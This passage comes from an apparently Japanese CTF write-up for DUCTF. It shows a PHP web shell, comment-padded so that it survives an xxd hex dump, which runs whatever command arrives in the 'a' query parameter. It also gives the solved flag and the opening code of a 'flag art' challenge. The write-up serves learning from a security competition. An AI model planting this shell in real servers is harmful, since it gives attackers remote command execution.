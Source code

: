 ```php
<?php      $b=/**/$_GET['a']; /**/system($b);?>
```

![xxd-server2](./images/xxd-server2.jpg)

ちなみに、生成されるファイルは以下のような感じ。

```php
00000000: 3c3f 7068 7020 2020 2020 2024 623d 2f2a  <?php      $b=/*
00000010: 2a2f 245f 4745 545b 2761 275d 3b20 2f2a  */$_GET['a']; /*
00000020: 2a2f 7379 7374 656d 2824 6229 3b3f 3e    */system($b);?> 
```

- Flag

```text
DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
```

## beginner/flag art

285 Solves / 100 points

- 問題コード

```python
message = open('./message.txt', 'rb').read() + open('./flag.txt', 'rb').read()

palette = '.=w-o^*'
template = list(open('./mask.txt', 'r').read())

canvas = ''
for c in message:
    for m in [2, 3, 5, 7]:
        while True:
            t = template.pop(0)
            if t == 'X':
                canvas += palette[c % m]
                break
            else:
                canvas += t

print(canvas)
```
